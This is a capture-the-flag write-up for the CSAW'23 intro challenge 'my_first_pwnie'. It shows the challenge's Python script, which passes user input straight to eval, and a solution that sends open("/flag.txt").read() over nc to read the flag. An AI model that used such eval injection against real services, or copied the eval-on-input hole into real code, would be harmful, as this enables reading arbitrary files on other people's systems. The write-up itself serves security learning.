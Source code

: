 # CSAW'23

## my_first_pwnie

> 
> You must be this 👉 high to ride.
> 
> Note: flag is in /flag.txt
>
>  Author: ElykDeer
>
> [`my_first_pwnie.py`](my_first_pwnie.py)

Tags: _intro_

## Solution
We get a python script for this challenge. The script is super short and we can see a input is requested,  passed to `eval` and assigned to `response`. Afterwards `response` is tested to see if it's `password`.

```python
try:
  response = eval(input("What's the password? "))
  print(f"You entered `{response}`")
  if response == "password":
    print("Yay! Correct! Congrats!")
    quit()
except:
  pass

print("Nay, that's not it.")
```

The thing is, there is no flag printed. And in fact, the whole `password` story is just diversion. But since our input is put to `eval` we can of course input our own python code and read the flag from `/flag.txt`.

```bash
$ nc intro.csaw.io 31137
What's the password? open("/flag.txt").read()
You entered `csawctf{neigh______}
`
Nay, that's not it.
```

Flag `csawctf{neigh______}`